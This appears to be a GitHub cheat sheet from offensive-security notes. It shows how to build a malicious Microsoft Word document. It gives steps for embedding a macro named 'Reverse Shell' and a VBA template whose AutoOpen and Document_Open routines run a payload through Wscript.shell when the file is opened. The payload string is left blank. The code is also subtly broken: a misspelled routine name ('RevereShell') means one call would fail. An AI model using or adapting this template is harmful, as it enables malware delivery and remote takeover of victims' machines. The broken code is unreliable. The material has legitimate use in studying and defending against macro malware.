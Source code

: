 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Macros
## Table of Contents
* [How to Add a Macro to a Microsoft Word Document](#how-to-add-a-macro-to-a-microsoft-word-document)
* [Example Macro](#example-macro)
* [Example Macro Syntax Explained](#example-macro-syntax-explained)
* [VBScript, CScript, and WScript](#vbscript-cscript-wscript)

## How to Add a Macro to a Microsoft Word Document
1. Click-on "View" > "Macros" 
2. Set "Macro name" to be "Reverse Shell"
3. Set "Macros in" to be the name of the current Word document
4. Click-on "Create"
5. Replace the provided template code with your payload (see below for an example)
6. Save the macro-embedded file as a "Word 97-2003 Document"

## Example Macro
To test the example code below, save it with a .doc or .docm file (do not use .docx). Ensure to use variables to store strings as VBA limits string lengths to no more than 255 per string. In other words, if you have a long payload, break it up and then concatenate each part to a variable. 
```vba
Sub AutoOpen()
  ReverseShell
End Sub

Sub Document_Open()
  RevereShell
End Sub

Sub ReverseShell()
  ' copy/paste your payload into the FOO variable
  Dim FOO As String
  FOO = ""
  
  CreateObject("Wscript.shell").Run FOO
End Sub
```

## Example Macro Syntax Explained
```bash
# Sub = used like a function, does not return values (functions do)
# AutoOpen() = predefined procedure; executed when a new doc is opened
# Document_Open() = predefined procedure; exec when a doc is already opened
# ' = comments
# Dim = used to declare a var (example declares FOO as a string var)
# CreateObject() = ???
# End Sub = represents the end of "sub" procedure within our exploit
```

## VBScript, CScript, and WScript
* 'cscript' runs entirely in the command line and is ideal for non-interactive scripts.
* 'wscript' will popup Windows dialogue boxes for user interaction.

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
